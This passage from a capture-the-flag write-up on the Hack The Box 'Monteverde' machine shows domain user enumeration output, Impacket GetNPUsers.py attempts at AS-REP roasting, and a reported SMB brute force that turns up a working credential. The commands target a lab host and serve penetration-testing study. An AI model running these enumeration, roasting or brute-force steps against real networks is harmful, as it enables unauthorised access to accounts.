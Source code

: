 	index: 0xfd2 RID: 0xa37 acb: 0x00000210 Account: smorgan        Name: Sally Morgan      Desc: (null)
	index: 0xfc6 RID: 0xa2b acb: 0x00000210 Account: svc-ata        Name: svc-ata   Desc: (null)
	index: 0xfc7 RID: 0xa2c acb: 0x00000210 Account: svc-bexec      Name: svc-bexec Desc: (null)
	index: 0xfc8 RID: 0xa2d acb: 0x00000210 Account: svc-netapp     Name: svc-netapp        Desc: (null)
	```

6.	I tried the low hanging fruit of seeing if the users are susceptible to ASREPRoast using the user account information found in the previous step. No accounts were found to be vulnerable.

	```
	(impacket) jtuyen@bpsi:~/Tools/Windows/impacket/examples$ ./GetNPUsers.py -dc-ip 10.10.10.172 MEGABANK/DGalanos
	Impacket v0.9.21.dev1+20200225.153700.afe746d2 - Copyright 2020 SecureAuth Corporation
	
	Password:
	[*] Cannot authenticate DGalanos, getting its TGT
	[-] User DGalanos doesn't have UF_DONT_REQUIRE_PREAUTH set
	(impacket) jtuyen@bpsi:~/Tools/Windows/impacket/examples$ ./GetNPUsers.py -dc-ip 10.10.10.172 MEGABANK/roleary
	Impacket v0.9.21.dev1+20200225.153700.afe746d2 - Copyright 2020 SecureAuth Corporation
	
	Password:
	[*] Cannot authenticate roleary, getting its TGT
	[-] User roleary doesn't have UF_DONT_REQUIRE_PREAUTH set
	(impacket) jtuyen@bpsi:~/Tools/Windows/impacket/examples$ ./GetNPUsers.py -dc-ip 10.10.10.172 MEGABANK/smorgan
	Impacket v0.9.21.dev1+20200225.153700.afe746d2 - Copyright 2020 SecureAuth Corporation
	
	Password:
	[*] Cannot authenticate smorgan, getting its TGT
	[-] User smorgan doesn't have UF_DONT_REQUIRE_PREAUTH set
	```

7.	Running low on the number of enumerations, I've resorted to brute forcing the SMB accounts. After numerous attempts of brute forcing various accounts, I found one that works: `MEGABANK\SABatchJobs:SABatchJobs`

	![htb-monteverde-1.png](htb-monteverde-1.png)
